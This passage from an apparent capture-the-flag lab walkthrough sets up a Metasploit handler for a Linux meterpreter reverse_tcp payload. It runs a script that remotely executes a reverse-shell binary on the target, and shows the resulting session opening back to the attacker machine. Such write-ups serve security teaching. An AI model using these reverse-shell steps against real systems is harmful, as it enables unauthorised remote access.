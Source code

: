 {{< highlight markdown >}}
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp        
msf5 exploit(multi/handler) > options                       
                                               
Module options (exploit/multi/handler):                                                      
                                               
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------                                         
                                                                                  
                                                                                                                    
Payload options (linux/x86/meterpreter/reverse_tcp):                 
6                                                                     
   Name   Current Setting  Required  Description      
   ----   ---------------  --------  ----------- 
   LHOST                   yes       The listen address (an interface may be specified)                              
   LPORT  4444             yes       The listen port
                                                       
                                                                                
Exploit target:                                                  
                                                               
   Id  Name                                     
   --  ----                               
   0   Wildcard Target                      
                                                      
                                              
msf5 exploit(multi/handler) > set LHOST 192.168.167.130
LHOST => 192.168.167.130
msf5 exploit(multi/handler) > run
{{< / highlight >}}

### Call the exploit and watch your meterpreter shell

In another terminal, run the following command to remotely execute our staged payload.

{{< highlight markdown >}}
root@kali:~/wallaby# ~/src/wallaby/pcurl.py -s -c './revshell'  
{{< / highlight >}}

Back in msfconsole, we see the target connect to our handler.

{{< highlight markdown >}}
msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.167.130:4444
[*] Sending stage (985320 bytes) to 192.168.167.133
[*] Meterpreter session 1 opened (192.168.167.130:4444 -> 192.168.167.133:47150) at 2019-05-02 09:15:32 -0400

meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33
meterpreter >
{{< / highlight >}}

Congratulations! You've got a meterpreter shell! :D

# Escalating Privileges

